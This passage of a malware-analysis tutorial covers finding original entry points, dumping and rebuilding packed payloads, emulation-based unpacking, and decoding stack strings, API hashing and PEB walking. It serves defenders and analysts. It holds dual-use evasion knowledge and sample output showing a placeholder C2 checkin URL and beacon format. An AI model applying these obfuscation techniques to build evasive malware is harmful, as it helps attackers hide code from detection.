Flags in `bph addr, type, size`: type is `r` (read/access), `w` (write), or `x` (execute); size is 1, 2, 4, or 8 bytes. Hardware breakpoints use the CPU's four debug registers and do not modify the code, which matters because software breakpoints write `0xCC` and any stub that checksums its own code will notice.

**Why it fails:** x64 has no `pushad`; 64-bit stubs save registers individually or not at all. Stubs that use only four debug registers' worth of hardware breakpoints elsewhere will conflict. Some protectors deliberately read the saved stack area mid-run to trigger false positives.

### 4.2 Technique 2 — Breakpoint on memory allocation APIs

**Applies when:** the stub allocates fresh memory for the payload, which is nearly all crypters and modern loaders.

**Mechanism:** the payload has to live somewhere. Break on the allocator, note the returned address, then break on *execute* in that region.

```
bp VirtualAlloc
bp VirtualProtect
bp NtAllocateVirtualMemory        ; catches stubs that skip the Win32 layer
F9
```

When `VirtualAlloc` returns, the address is in `EAX`/`RAX`. Set a memory breakpoint on execute across that whole allocation:

```
; RAX = 0x02340000, allocation size 0x30000
bpm 0x02340000, 0, x
```

`bpm` arguments are `bpm addr[, singleshoot[, type]]` where `singleshoot` 0 means the breakpoint persists and 1 means it is removed after firing; type is `r`, `w`, or `x`. Memory breakpoints work by changing page protection, so they cover an entire page range cheaply — ideal when you know the region but not the offset.

Press F9. The first execution anywhere in that region is the payload's first instruction — very often the OEP itself, or a small trampoline one call away from it.

**Watch the protection argument.** `VirtualAlloc`'s fourth parameter (`flProtect`) tells you the intent before anything has been written: `0x40` is `PAGE_EXECUTE_READWRITE`, `0x04` is `PAGE_READWRITE`. An allocation of `0x40` is a near-certain code-hosting region. If the stub allocates RW and later calls `VirtualProtect` with `0x20` (`PAGE_EXECUTE_READ`), breaking on `VirtualProtect` is even better: the payload is fully written by then, so you can dump immediately at that call.

### 4.3 Technique 3 — Section hop / memory breakpoint on the target section

**Applies when:** the payload decompresses into an existing oversized section of the same image (UPX's `UPX0`, ASPack's `.aspack`).

**Mechanism:** the stub executes in one section and the payload executes in another. Set an execute breakpoint on the destination section and let the CPU tell you when control crosses over.

In x64dbg: **Memory Map (Alt+M)** → right-click the target section → **Breakpoint → Memory, Execute**. Or from the command bar, using the section base and size from the memory map:

```
bpm 0x00401000, 0, x
```

**Practical note:** put the breakpoint on the *destination*, not the current section, and set it before the decompression loop finishes, otherwise the write of payload bytes into the region may trip a write breakpoint thousands of times. If you must catch writes, use `bpm addr, 1, w` (single-shot) to fire once and re-arm manually.

### 4.4 Technique 4 — Run trace and the "new memory region" heuristic

**Applies when:** the stub is convoluted and you want the debugger to find the transition for you.

x64dbg's **run trace** logs every executed instruction to a file, with optional stop conditions. The condition that finds an OEP generically is "stop when EIP leaves the stub's address range":

```
; Trace → Trace record → Trace into (Ctrl+Alt+F7), condition:
; stop when EIP is outside the packer section 0x409000-0x40B000
eip < 0x409000 || eip > 0x40B000
```

Tracing is slow — hundreds of thousands of instructions per second at best, and decompression loops can run tens of millions — so scope it narrowly. Use `Trace over` (F7 semantics at call granularity) rather than `Trace into` when the stub calls large helper routines you do not care about.

### 4.5 Technique 5 — Tail jump recognition

**Applies when:** you are already stepping near the end of the stub and need to identify which of several jumps is the real transfer.

The **tail jump** is the stub's final control transfer. Its signature is a large delta between the jump's own address and its target, crossing a section boundary, immediately after register restoration and immediately before a compiler-style prologue. Common encodings:

| Encoding | Assembly | Notes |
| --- | --- | --- |
| Direct relative jump | `jmp 0x00401F00` | Easiest — target visible in the disassembly |
| Register indirect | `jmp eax` / `jmp rax` | Check register value before stepping |
| Push–ret | `push 0x00401F00` / `ret` | Deliberately hides the target from naive disassemblers |
| Indirect memory | `jmp dword ptr [0x40A128]` | Follow the pointer in the dump pane |
| Call | `call 0x00401F00` | Payload returns to the stub for cleanup afterwards |

The push–ret form deserves attention because a linear disassembler renders it as an unrelated push followed by a function end, breaking automated control-flow reconstruction. When you see a `push` of an immediate that looks like a code address immediately followed by `ret`, you have found a tail jump regardless of what the tool claims the function boundaries are.

### 4.6 Technique 6 — Breaking on the payload's first meaningful API

**Applies when:** you have behavioural intelligence from Chapter 3 (Procmon showed a registry write, a file creation, a DNS lookup) and you want to skip the stub entirely.

Set breakpoints on the APIs the *payload* uses but the stub never would:

```
bp CreateFileW
bp RegSetValueExW
bp InternetOpenW
bp WSAStartup
bp CreateProcessW
```

When one hits, the call stack (`View → Call Stack`, or `k` in the command bar) shows the return address inside the payload. Follow that address in the disassembler and you are inside unpacked code, even if you never observed the OEP. For dumping purposes the OEP can then be recovered by scanning backwards for the image's `AddressOfEntryPoint` region — or, pragmatically, by noting that Scylla can often auto-detect it once the payload is mapped.

### 4.7 Technique 7 — Hardware breakpoint on the IAT

**Applies when:** the stub writes resolved import addresses into a table and the payload immediately calls through it.

Break on `GetProcAddress` a few times to learn where the resolved addresses are being written (the destination pointer is usually in a register at the write), then set `bph <iat_entry>, r, 4`. The first *read* of an IAT entry is the payload making its first API call — which is by definition inside unpacked code and usually within a few hundred instructions of the OEP.

### 4.8 Technique 8 — Just let it run and scan memory

**Applies when:** the stub is hostile, heavily anti-debugged, or hollows into a child process, and precision stepping is costing hours.

Let the sample run for a few seconds under no debugger at all, then scan process memory for freshly materialised PE images with `PE-sieve` (Part 5.4). You lose the exact OEP and you risk the payload doing damage, but you get the payload bytes — and in a snapshot-reverted VM, that trade is usually correct. This is the pragmatic professional's first move against protectors, not a last resort.

### 4.9 Choosing among them



### 4.10 Verifying you actually found the OEP

Four checks before you spend time dumping, all cheap:

1. **Prologue shape.** `push ebp; mov ebp, esp` (x86) or `sub rsp, 0x28` / `mov [rsp+8], rcx` (x64) at the landing address.
2. **Address plausibility.** The OEP should be inside the image's code section at a low RVA — `0x401000`-ish for a default-based x86 PE. An "OEP" at `0x77xxxxxx` is a system DLL; you stepped into an API.
3. **Analysis succeeds.** Press Ctrl+A in x64dbg. If the analyser reconstructs clean functions with recognisable CRT patterns around your address, the region contains genuine compiled code. If it produces garbage, you are still in stub territory or in data.
4. **Strings appear.** Right-click in the dump → search for ASCII/UTF-16 strings in the module range. Unpacked payloads have readable strings; packed regions do not. Seeing URLs, registry paths, or format strings that were absent from the on-disk file is the strongest confirmation there is.

## Part 5: Dumping and Rebuilding — Scylla, PE-sieve, and the IAT Problem

Finding the OEP is half the job. Turning live memory into a file that other tools will parse is the other half, and it fails for reasons that are invisible unless you understand the PE loader.

### 5.1 Why a naive memory dump is broken

Two structural problems and one semantic one.

**Alignment.** A PE on disk uses `FileAlignment` (typically 0x200); the same PE mapped in memory uses `SectionAlignment` (typically 0x1000). Every section's offset differs between the two forms. If you dump memory bytes and write them to a file without adjusting the section table, every `PointerToRawData` in the header is wrong, and any tool that parses the file will read the wrong bytes for every section. The fix is to rewrite each section's `PointerToRawData` to equal its `VirtualAddress` and `SizeOfRawData` to equal its virtual size — that is what "dump with memory alignment" means in the tools.

**The import address table.** On disk, the IAT contains RVAs into the import name table; the Windows loader overwrites it with real function addresses at load. Your dump captures the *post-load* state — a table of absolute addresses like `0x75A31C40` valid only for the exact DLL base addresses in that one process on that one boot, with no names anywhere. Open such a dump in Ghidra and every API call renders as `call dword ptr [0x40A0F8]` pointing to a meaningless number. This is why an otherwise perfect dump looks unreadable, and fixing it is what Scylla exists for.

**Runtime state.** Global variables in the dump hold whatever values they had at the dump instant, not their initial values. Usually harmless, occasionally confusing — a counter that "starts" at 7, a buffer already containing decrypted data (which is sometimes a gift).

### 5.2 Import reconstruction with Scylla

Chapter 6 used Scylla's happy path. Here is what to do when it does not go smoothly.

The workflow, precisely:

1. Set **OEP** to the address you verified in 4.10.
2. **IAT Autosearch.** Scylla scans memory around the OEP for a run of pointers into loaded module address ranges — that pattern is an IAT. It reports a start address and size.
3. **Get Imports.** Every pointer is resolved back to a `module!function` name by looking up which loaded module's export table contains that address.
4. Review the tree. Entries Scylla could not resolve are marked invalid (red).
5. **Dump** — writes memory to a file with the section table fixed for alignment.
6. **Fix Dump** — appends a new import descriptor and name table to the dumped file and repoints the IAT at it.

The order matters: Fix Dump operates on the file produced by Dump, so dumping after fixing produces a file with no import fix.

**When Autosearch finds nothing or finds a tiny table:** the payload may resolve APIs lazily, so the IAT is not fully populated at the OEP. Let it run a little further — set a breakpoint on a payload API from 4.6, hit it, then run Autosearch again. Alternatively, tick "Advanced" search, which scans a wider range at the cost of false positives.

**When entries are invalid:** the common cause is **IAT redirection** — the packer replaces each IAT entry with a pointer to a tiny stub in its own memory, and the stub jumps to the real API. Scylla resolves the pointer to "unknown region" because it points at packer memory, not at a module export. Two options: Scylla's **IAT Search → Advanced** with "Fix IAT redirection" enabled, which follows the stubs; or manually inspect one stub in the disassembler, learn its shape, and script the resolution:

```
; a redirected IAT entry points here, in packer memory:
02341A20  68 40 1C A3 75    push 0x75A31C40      ; real API address
02341A25  C3                ret
```

That shape — push absolute, ret — is trivially scriptable: read four bytes at stub+1 to get the true target. Scylla handles the common variants; a bespoke one needs a small script.

**When nothing works:** cut the invalid entries and dump anyway. You lose names for those specific calls but keep everything else. Partial naming beats no dump.

### 5.3 Manual dump fixing with pefile

For automation, or when the GUI tools cannot be used, the alignment fix is thirty lines:

```python
#!/usr/bin/env python3
# fixdump.py — convert a memory-aligned dump into a file-aligned PE
import sys, pefile

pe = pefile.PE(sys.argv[1])

# 1. Sections: on-disk offsets must equal virtual offsets for a memory dump
for s in pe.sections:
    s.PointerToRawData = s.VirtualAddress
    s.SizeOfRawData    = max(s.Misc_VirtualSize, s.SizeOfRawData)

# 2. FileAlignment must match SectionAlignment for the mapping to be 1:1
pe.OPTIONAL_HEADER.FileAlignment = pe.OPTIONAL_HEADER.SectionAlignment

# 3. If the payload ran from a base other than its preferred one, record it
if len(sys.argv) > 3:
    pe.OPTIONAL_HEADER.ImageBase = int(sys.argv[3], 16)

# 4. Entry point, if known
if len(sys.argv) > 2:
    pe.OPTIONAL_HEADER.AddressOfEntryPoint = int(sys.argv[2], 16)

pe.write(sys.argv[1] + '.fixed')
print('wrote', sys.argv[1] + '.fixed')
```

```
$ python3 fixdump.py dump.bin 0x1f00 0x400000
wrote dump.bin.fixed
$ diec dump.bin.fixed
PE32
    Compiler: Microsoft Visual C/C++(19.29)[LTCG/C]
    Linker: Microsoft Linker(14.29)
Entropy: 6.114 (not packed)
```

The compiler string reappearing and entropy dropping to 6.1 is the confirmation that the dump is genuine payload rather than more packed data.

### 5.4 PE-sieve and Hollows Hunter from scratch

**PE-sieve** (by hasherezade) scans a running process's memory for anything that looks like a PE image or shellcode that does not match what should be there, and dumps every hit. It is the single most efficient tool in this chapter because it collapses "find the payload, find its bounds, dump it, fix alignment" into one command — including for payloads injected into *other* processes.

What it detects: replaced images (hollowing), implanted PEs in private memory, patched code inside legitimate modules (inline hooks), unbacked executable regions, and shellcode.

```powershell
# download the release build into the analysis VM
# https://github.com/hasherezade/pe-sieve/releases  -> pe-sieve64.exe

PS> .\pe-sieve64.exe /pid 4820
```

```
PID: 4820
Scanning workingset: 68 memory regions.
[*] Scanning: C:\analysis\loader.bin
[!] Section .text is MODIFIED
[*] Scanning: C:\Windows\SYSTEM32\ntdll.dll
[*] Scanning WORKINGSET
[!] Implanted PE found at 0x02340000 (size: 0x1A000)
---
SUMMARY:
Total scanned:      68
Skipped:             0
Hooked:              1
Replaced:            0
Implanted PE:        1
Implanted shc:       0
Unreachable files:   0
Other:               0
Total suspicious:    2
Dumped modules: 2 to: .\process_4820
```

The dump directory then contains the recovered payload plus a JSON report:

```
PS> dir .\process_4820
    2340000.exe                 <- the implanted payload, already alignment-fixed
    loader.bin.dll              <- the modified original image
    scan_report.json
```

Flags worth memorising:

| Flag | Effect |
| --- | --- |
| `/pid N` | Target process ID |
| `/imp 3` | Aggressive import recovery — rebuilds the IAT like Scylla does |
| `/dmode 3` | Dump mode: 3 = "virtual", keeps memory alignment (most reliable for injected code) |
| `/shellc` | Also detect and dump non-PE shellcode regions |
| `/data 3` | Dump data regions too — catches decrypted configs sitting in the heap |
| `/threads` | Report threads whose start address is in unbacked memory |
| `/quiet` | Suppress the interactive summary |
| `/dir <path>` | Output directory |

The combination that recovers the most from a hostile sample:

```powershell
PS> .\pe-sieve64.exe /pid 4820 /imp 3 /shellc /data 3 /threads /dir C:\analysis\dumps
```

**Hollows Hunter** is the same engine applied to every process on the system at once, which is exactly what you want after detonating a sample that injects somewhere you did not predict:

```powershell
PS> .\hollows_hunter64.exe /imp 3 /shellc /dir C:\analysis\hh
# or watch continuously and dump the instant anything is implanted
PS> .\hollows_hunter64.exe /loop /imp 3 /dir C:\analysis\hh
```

`/loop` is the killer feature for multi-stage samples: detonate, let the chain run, and every stage that materialises anywhere on the box gets captured without you having to guess the target process.

**Blue team usage:** PE-sieve is not only an analyst tool. Its engine is embedded in live-response tooling, and `hollows_hunter /loop` on a suspected host is a legitimate hunting technique — it finds injected code with no prior signature knowledge, because it reasons about structure (memory contents not matching the backing file) rather than content.

### 5.5 Post-dump sanity checklist

| Check | Expected on a good dump |
| --- | --- |
| `diec` compiler string | A real compiler/linker is identified |
| Entropy | Drops to roughly 5.5–6.8 |
| Import count | Tens to hundreds of named functions across several DLLs |
| Strings | URLs, registry paths, mutex names, format strings visible |
| `capa` | Reports real capabilities, no packing warning |
| Ghidra decompile of OEP | Recognisable CRT startup calling into `main` |

If entropy is still above 7.2, you have dumped another packed layer — return to Part 2 and re-triage. That is a success, not a failure.

## Part 6: Automated and Emulation-Based Unpacking

Manual unpacking is the skill that always works; automation is what makes a queue of two hundred samples tractable. The right posture is to try automation first, spend ninety seconds on it, and fall back to manual the moment it stalls.

### 6.1 The public unpacker path

Always worth the ten seconds:

```bash
upx -d sample.exe -o sample_unpacked.exe        # UPX
upx -d -f sample.exe -o out.exe                 # -f forces past some header edits
```

```
$ upx -d sample.exe -o out.exe
upx: sample.exe: CantUnpackException: file is modified/hacked/protected; take care!!!
```

That exception almost always means one of three things: the UPX header magic (`UPX!`) was stripped, the section names were renamed, or the `l_info`/`p_info` structures were tampered with. Sometimes restoring the magic string in a hex editor is enough to make `upx -d` work again — a genuinely worthwhile thirty-second experiment. When it is not, the ESP trick still works, because the *stub logic* is unchanged.

### 6.2 unipacker — emulation-based automatic unpacking

**unipacker** runs the packed binary inside the Unicorn CPU emulator with a minimal emulated Windows environment, watches for the classic unpacking behaviour (writes into a region followed by execution of that region), and dumps at the transition — automatically, with IAT reconstruction, and without ever executing a single instruction on your real CPU. That last property makes it uniquely safe: there is no host to compromise because there is no host execution.

```bash
pip install unipacker
```

```bash
$ unipacker sample.exe
Trying to unpack sample.exe
Emulation starting at 0x409a40
[+] Detected packer: UPX
[+] Tail jump found at 0x409b85 -> 0x401f00
[+] Dumping at OEP 0x401f00
[+] Rebuilding imports: 42 functions in 4 DLLs
[+] Unpacked file written to unpacked_sample.exe
```

Interactive mode gives you an emulator shell for the awkward cases:

```
$ unipacker -i sample.exe
> b 0x401f00        # set breakpoint
> r                 # run
> dump              # dump current state
> i                 # show emulator info / registers
> mem 0x02340000 256
```

It handles UPX, ASPack, PEtite, FSG, MEW, MPRESS and generic single-stage stubs well. It struggles with anything needing real Windows API behaviour it does not emulate, with multi-process chains, and with protectors.

### 6.3 Speakeasy and Qiling — programmable emulation

When you need control, use an emulation framework directly.

**Speakeasy** (FLARE) emulates Windows kernel and user mode with a large library of implemented APIs, and reports a behavioural trace plus memory dumps:

```bash
pip install speakeasy-emulator
```

```bash
$ speakeasy -t sample.exe -o report.json -d dumps/
* exec: shellcode
0x409a40: 'kernel32.VirtualAlloc(0x0, 0x1a000, 0x3000, 0x40)' -> 0x2340000
0x409b12: 'kernel32.LoadLibraryA("wininet.dll")' -> 0x77e00000
0x409b40: 'kernel32.GetProcAddress(0x77e00000, "InternetOpenW")' -> 0x77e12340
0x401f00: entry point reached in unpacked region
* Memory dump: dumps/sample_0x2340000.mem
```

That trace is itself the unpacking narrative — you can read the allocation, the import resolution, and the transfer without opening a debugger.

**Qiling** is a full binary emulation framework where you write Python around the execution, which makes it the right tool for scripted, repeatable unpacking of a *family* you have already reversed once:

```python
from qiling import Qiling
from qiling.const import QL_VERBOSE

def dump_on_exec(ql, access, addr, size, value):
    # fires when execution enters the allocated region
    data = ql.mem.read(0x2340000, 0x1A000)
    open('payload.bin', 'wb').write(bytes(data))
    ql.stop()

ql = Qiling(['sample.exe'], 'rootfs/x86_windows', verbose=QL_VERBOSE.OFF)
ql.hook_code(dump_on_exec, begin=0x2340000, end=0x2360000)
ql.run()
```

### 6.4 Frida for live instrumentation

**Frida** injects a JavaScript engine into a running process and lets you hook any function. For unpacking, the highest-value hook is on the memory-protection call that precedes execution — dump right there and you catch the payload fully written but not yet run.

```bash
pip install frida-tools
```

```javascript
// dump_on_protect.js — dump any region made executable
const VirtualProtect = Module.getExportByName('kernel32.dll', 'VirtualProtect');
Interceptor.attach(VirtualProtect, {
  onEnter(args) {
    this.addr = args[0];
    this.size = args[1].toInt32();
    this.newProt = args[2].toInt32();
  },
  onLeave(retval) {
    // 0x10,0x20,0x40,0x80 = the PAGE_EXECUTE_* family
    if (this.newProt & 0xF0) {
      const bytes = Memory.readByteArray(this.addr, this.size);
      const magic = new Uint8Array(bytes.slice(0, 2));
      console.log('[+] exec region ' + this.addr + ' size 0x' + this.size.toString(16) +
                  (magic[0] === 0x4D && magic[1] === 0x5A ? '  <-- MZ header!' : ''));
      send({addr: this.addr.toString(), size: this.size}, bytes);
    }
  }
});
```

```bash
$ frida -f sample.exe -l dump_on_protect.js -o frida.log
[+] exec region 0x2340000 size 0x1a000  <-- MZ header!
```

Frida runs the sample for real, so it belongs only in the isolated VM — but it is unmatched for samples whose stub logic is too convoluted to step through and too Windows-dependent to emulate.

### 6.5 Choosing an automation route

| Tool | Executes on real CPU? | Handles multi-stage | Rebuilds IAT | Best for |
| --- | --- | --- | --- | --- |
| `upx -d` and friends | No | No | N/A | Known, unmodified packers |
| unipacker | No (Unicorn) | Weak | Yes | Classic stub packers, bulk triage |
| Speakeasy | No (emulated) | Partial | Partial | Behavioural trace plus memory dumps |
| Qiling | No (emulated) | Yes, with scripting | Manual | Repeatable family-specific unpackers |
| Frida | Yes | Yes | No | Hostile stubs, live hooking |
| PE-sieve / Hollows Hunter | Yes (post-hoc scan) | Yes | Yes (`/imp 3`) | Injection, hollowing, unknown targets |
| x64dbg manual | Yes | Yes | Yes (Scylla) | Anything the above fails on |

The professional default for an unknown sample: detonate under `hollows_hunter /loop`, and in parallel try `unipacker`. Between them you resolve a large majority of commodity samples in under two minutes, leaving manual work for the ones that genuinely deserve it.

## Part 7: String and API Obfuscation — Stack Strings, API Hashing, Dynamic Resolution

You have dumped the payload and it still has almost no strings and almost no imports. Nothing went wrong — the payload itself hides both, and it does so with a small, well-known set of techniques.

### 7.1 Stack strings

Instead of storing `"kernel32.dll"` in `.rdata` where `strings` would find it, the compiler is coaxed into building it one character at a time on the stack:

```asm
004021A0  C645 F0 6B      mov byte ptr [ebp-0x10], 'k'
004021A4  C645 F1 65      mov byte ptr [ebp-0xF],  'e'
004021A8  C645 F2 72      mov byte ptr [ebp-0xE],  'r'
004021AC  C645 F3 6E      mov byte ptr [ebp-0xD],  'n'
004021B0  C645 F4 65      mov byte ptr [ebp-0xC],  'e'
004021B4  C645 F5 6C      mov byte ptr [ebp-0xB],  'l'
004021B8  C645 F6 33      mov byte ptr [ebp-0xA],  '3'
004021BC  C645 F7 32      mov byte ptr [ebp-0x9],  '2'
```

A wider variant packs four characters per instruction:

```asm
004021A0  C745 F0 6B65726E   mov dword ptr [ebp-0x10], 0x6E72656B   ; "kern"
004021A7  C745 F4 656C3332   mov dword ptr [ebp-0xC],  0x32336C65   ; "el32"
004021AE  C745 F8 2E646C6C   mov dword ptr [ebp-0x8],  0x6C6C642E   ; ".dll"
```

Note the byte-order reversal: `0x6E72656B` little-endian is `6B 65 72 6E` = `kern`. When you see a run of `mov` immediates whose bytes fall in the printable ASCII range 0x20–0x7E, you are looking at a stack string, and reading it is a matter of writing the bytes out in memory order.

Two more variants appear constantly:

- **Encrypted stack strings**: the same construction followed by an XOR loop over the buffer. The stack bytes are non-printable until the loop runs.
- **SIMD stack strings**: modern compilers vectorise the construction into `movups xmm0, [rip+offset]` / `movups [rsp+0x20], xmm0`, which moves 16 characters at once from a `.rdata` blob that is itself non-obvious.

### 7.2 FLOSS from scratch

**FLOSS** (FLARE Obfuscated String Solver) is the tool built specifically for this problem. It does four things: extracts normal static strings, extracts stack strings by pattern-matching the construction sequences, extracts "tight strings" built in loops, and — its signature capability — *emulates* every function in the binary and captures strings that get decoded at runtime, without you having to identify or reimplement the decryption routine.

That last mode is the important one. If a payload decrypts its C2 URL with a bespoke algorithm, FLOSS finds the URL by running the decryptor under emulation and reading the output buffer.

```bash
pip install flare-floss
# or the standalone release
wget https://github.com/mandiant/flare-floss/releases/latest/download/floss-linux.zip
```

Core usage and the flags that matter:

```bash
floss payload.exe                          # all analysis types
floss --only static payload.exe            # just static strings (fast)
floss --only stack tight decoded payload.exe   # skip static, get the interesting ones
floss -n 8 payload.exe                     # minimum string length 8 (default 4)
floss --format sc32 shellcode.bin          # treat input as 32-bit shellcode
floss --format sc64 shellcode.bin          # 64-bit shellcode
floss -j payload.exe > strings.json        # JSON output
floss -v payload.exe                       # verbose — shows which function decoded what
```

```
$ floss -n 6 payload_dumped.exe
INFO: extracting static strings...
INFO: extracting stack strings...
INFO: emulating 214 functions to extract decoded strings...

FLOSS STATIC STRINGS: 118
  ...
FLOSS STACK STRINGS: 14
  kernel32.dll
  ntdll.dll
  wininet.dll
  advapi32.dll
  SOFTWARE\Microsoft\Windows\CurrentVersion\Run
  Global\{8f7a1c22-...}
FLOSS TIGHT STRINGS: 3
  %s\%s.exe
  /gate.php
FLOSS DECODED STRINGS: 6
  0x402190: https://cdn.example-delivery.net/api/v2/checkin
  0x402190: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
  0x4021f4: bot_id=%s&os=%s&av=%s
```

The `0x402190` prefix on decoded strings is the address of the decoding function — jump there in Ghidra and you have found the string decryptor without searching for it. That is often the fastest route into a payload's structure: the decryptor is called from everywhere interesting.

**Limitation to internalise:** FLOSS emulates functions in isolation. A decryptor whose key is derived from a value computed elsewhere (a hash of the volume serial, a value fetched from the C2) will emulate to garbage. When FLOSS returns nothing on a payload you know has hidden strings, that is a signal the key is environment-derived, and you should switch to the debugger and let the sample decrypt for itself — exactly the technique from Chapter 6's lab.

### 7.3 API hashing

The import-hiding equivalent of a stack string. Instead of `GetProcAddress(hMod, "VirtualAlloc")`, the payload stores a 4-byte hash, walks the target DLL's export table in memory, hashes each exported name, and takes the match. The string `"VirtualAlloc"` never exists anywhere in the binary.

The canonical shape, which you will recognise on sight in decompiled output:

```c
DWORD hash_name(const char *s) {
    DWORD h = 0;
    while (*s) {
        h = (h >> 13) | (h << 19);   // ROR 13 on a 32-bit value
        h += (BYTE)*s++;
    }
    return h;
}

FARPROC resolve(HMODULE mod, DWORD target_hash) {
    // walk IMAGE_EXPORT_DIRECTORY of mod
    for (i = 0; i < NumberOfNames; i++) {
        const char *name = base + AddressOfNames[i];
        if (hash_name(name) == target_hash)
            return base + AddressOfFunctions[AddressOfNameOrdinals[i]];
    }
    return NULL;
}

// call sites become:
pVirtualAlloc = resolve(hKernel32, 0x91AFCA54);
```

The tell in the disassembly is a `ror` or `rol` instruction inside a tight loop over a byte pointer, followed by a comparison against a constant. Any function containing `ror edx, 0xD` is an API hasher until proven otherwise.

Common algorithms in the wild:

| Algorithm | Shape | Seen in |
| --- | --- | --- |
| ROR-13 additive | `h = ror(h,13) + c` | Metasploit block API, countless derivatives |
| ROR-7 additive | `h = ror(h,7) + c` | Various loaders |
| djb2 | `h = h*33 + c`, seed 5381 | Generic, easy to spot by the 5381 constant |
| sdbm | `h = c + (h<<6) + (h<<16) - h` | Occasional |
| FNV-1a | `h = (h ^ c) * 16777619`, seed 2166136261 | Modern loaders; the 0x01000193 constant is distinctive |
| CRC32 | Table-driven or `crc32` instruction | Uses the standard 0xEDB88320 polynomial |
| Custom XOR-shift | Anything with a per-sample seed | Bespoke crypters |

**Defeating it: build a rainbow table.** You do not need to reverse the payload's resolver by hand once you have identified the algorithm — you precompute every export name of every common DLL under that algorithm and look the constants up.

```python
#!/usr/bin/env python3
# apihash.py — resolve API hashes by brute-forcing over real export tables
import sys, pefile, glob

def ror32(v, n):
    return ((v >> n) | (v << (32 - n))) & 0xFFFFFFFF

def ror13_add(name: bytes) -> int:
    h = 0
    for c in name:
        h = ror32(h, 13)
        h = (h + c) & 0xFFFFFFFF
    return h

def fnv1a(name: bytes) -> int:
    h = 0x811C9DC5
    for c in name:
        h = ((h ^ c) * 0x01000193) & 0xFFFFFFFF
    return h

ALGOS = {'ror13': ror13_add, 'fnv1a': fnv1a}

table = {}
for dll in glob.glob('/mnt/win/Windows/System32/*.dll'):
    try:
        pe = pefile.PE(dll, fast_load=True)
        pe.parse_data_directories(
            directories=[pefile.DIRECTORY_ENTRY['IMAGE_DIRECTORY_ENTRY_EXPORT']])
        for exp in getattr(pe, 'DIRECTORY_ENTRY_EXPORT', {}).symbols or []:
            if not exp.name:
                continue
            for algo, fn in ALGOS.items():
                table[(algo, fn(exp.name))] = f"{dll.split('/')[-1]}!{exp.name.decode()}"
    except Exception:
        continue

for arg in sys.argv[1:]:
    h = int(arg, 16)
    hits = [(a, n) for (a, v), n in table.items() if v == h]
    print(f"{arg}: " + (', '.join(f'{a}:{n}' for a, n in hits) if hits else 'no match'))
```

```
$ python3 apihash.py 0x91AFCA54 0x726774C 0xE553A458
0x91AFCA54: ror13:kernel32.dll!VirtualAlloc
0x726774C:  ror13:kernel32.dll!LoadLibraryA
0xE553A458: ror13:kernel32.dll!VirtualProtect
```

For interactive work inside Ghidra, the community **HashDB** plugin (with the OALabs hash database behind it) does the same lookup against thousands of precomputed algorithms and auto-renames the constants in your decompilation — highlight the constant, invoke HashDB, and `0x91AFCA54` becomes `VirtualAllocHash` throughout the listing.

### 7.4 PEB walking — finding modules without imports

Before it can hash exports, the payload needs a module base, and it will not call `GetModuleHandle` (which would appear in the import table). It walks the Process Environment Block instead:

```asm
; x86
64 A1 30000000    mov eax, fs:[0x30]      ; PEB
8B40 0C           mov eax, [eax+0x0C]     ; PEB->Ldr
8B40 14           mov eax, [eax+0x14]     ; Ldr->InMemoryOrderModuleList
8B00              mov eax, [eax]          ; next entry
8B40 10           mov eax, [eax+0x10]     ; DllBase

; x64
65 48 8B 04 25 60000000   mov rax, gs:[0x60]   ; PEB
48 8B 40 18               mov rax, [rax+0x18]  ; PEB->Ldr
48 8B 40 20               mov rax, [rax+0x20]  ; InMemoryOrderModuleList
```

`fs:[0x30]` on x86 and `gs:[0x60]` on x64 are the two most recognisable byte sequences in all of shellcode analysis. Seeing either one at the start of a function means "this code resolves APIs manually" and tells you the next hundred instructions are an export-table walk you can skip past once you have identified it.

The traversal order is a stable convention worth memorising, because it is how position-independent code finds `kernel32` without knowing anything: the `InMemoryOrderModuleList` entries begin with the executable itself, then `ntdll.dll`, then `kernel32.dll` — so the classic sequence dereferences the list twice and takes the third entry.

**Security relevance for both sides:** because PEB walking requires no imports and no strings, it is the foundation of position-independent shellcode, and consequently the reason import-table-based detection alone is weak. On the defensive side it is also an opportunity: code that reads `gs:[0x60]` and then walks the export directory has a very distinctive instruction fingerprint that memory-scanning YARA rules can target directly.

### 7.5 Ghidra annotation workflow

Once you have resolved the hashes, push the names back into your listing so the decompilation becomes readable. A Ghidra script that renames the global variables holding resolved pointers:

```python
# rename_api_globals.py — Ghidra Python script
# Maps address -> resolved name, then renames the global at each address.
resolved = {
    0x0040A100: "pVirtualAlloc",
    0x0040A104: "pVirtualProtect",
    0x0040A108: "pLoadLibraryA",
    0x0040A10C: "pInternetOpenW",
}
for addr_int, name in resolved.items():
    addr = toAddr(addr_int)
    sym = getSymbolAt(addr)
    if sym is not None:
        sym.setName(name, ghidra.program.model.symbol.SourceType.USER_DEFINED)
    else:
        createLabel(addr, name, True)
    print("renamed %s -> %s" % (addr, name))
```

Run it from **Window → Script Manager**, and every `call dword ptr [0x40A100]` in the decompiler becomes `(*pVirtualAlloc)(...)`. Applying the correct function *signature* as well (right-click the global → Edit Data Type → set to a function pointer with the real prototype) makes the decompiler render arguments properly, turning an opaque call into `VirtualAlloc(0, 0x1a000, MEM_COMMIT, PAGE_EXECUTE_READWRITE)`. That single step is usually the difference between an unreadable and a readable payload.

## Part 8: Code Obfuscation — Junk, Opaque Predicates, Flattening, and Virtualisation

Everything so far assumed a payload that is normal code once you extract it. Obfuscators break that assumption: the code is directly executable and there is nothing to unpack, but it is written to defeat reading.

### 8.1 Junk code and instruction substitution

The cheapest technique: insert instructions that have no effect on the program's semantics.

```asm
; the original single instruction:
    mov eax, ebx

; after junk insertion and substitution:
    push ecx
    xor  ecx, ecx
    nop
    add  ecx, 0
    mov  eax, ebx
    jmp  short next        ; jump over garbage bytes
    db   0E8h, 0FFh, 0C3h  ; garbage that misaligns linear disassembly
next:
    pop  ecx
```

Junk is annoying but rarely a real obstacle: the decompiler's dataflow analysis eliminates most dead code automatically, and Ghidra's output for the above is simply `eax = ebx;`. The part that does hurt is the **garbage bytes after an unconditional jump**, which desynchronise a linear-sweep disassembler. Ghidra's recursive-descent analysis usually recovers; when it does not, select the bad bytes and use **Clear Code Bytes** (C) then **Disassemble** (D) at the correct address to force realignment.

**Instruction substitution** replaces operations with equivalent sequences: `add eax, 5` becomes `sub eax, -5`; `mov eax, 0` becomes `xor eax, eax` or `and eax, 0`; a constant is computed by arithmetic on two other constants so that it never appears literally in the binary. This last one matters for detection: it defeats YARA rules keyed on constants.

### 8.2 Opaque predicates

A conditional whose outcome is fixed but not obviously so, used to create branches that are never taken — inflating the control-flow graph with code that never runs.

```asm
; (x * (x + 1)) is always even, so bit 0 is always 0,
